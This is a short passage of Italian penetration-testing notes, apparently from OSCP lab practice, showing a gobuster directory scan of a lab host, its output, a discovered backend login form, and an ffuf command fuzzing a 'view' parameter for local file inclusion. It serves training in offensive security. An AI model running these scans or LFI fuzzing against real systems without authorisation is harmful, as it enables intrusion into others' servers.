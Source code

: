 Provo a lanciare questo comando:

```bash
gobuster dir -x .pdf -w /usr/share/wordlists/dirb/common.txt -u http://192.168.204.247/
```

E ottengo questo output:

```bash
/.hta                 (Status: 403) [Size: 276]
/.hta.pdf             (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/.htaccess.pdf        (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.htpasswd.pdf        (Status: 403) [Size: 276]
/backend              (Status: 301) [Size: 315] [--> http://127.0.0.1:9000/backend/]
/css                  (Status: 301) [Size: 311] [--> http://127.0.0.1:9000/css/]
/fonts                (Status: 301) [Size: 313] [--> http://127.0.0.1:9000/fonts/]
/img                  (Status: 301) [Size: 311] [--> http://127.0.0.1:9000/img/]
/index.php            (Status: 200) [Size: 4948]
/js                   (Status: 301) [Size: 310] [--> http://127.0.0.1:9000/js/]
/server-status        (Status: 200) [Size: 7772]
```

Vado sulla pagina backend e trovo un form di login:

![](/OSCP/Immagini_OSCP/Relia/246_internal_port_8000_login.png)

Lanciando questo comando scopro che è vulnerabilè all'LFI:

```bash
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u http://127.0.0.1:9000/backend/?view=FUZZ -fs 757

```
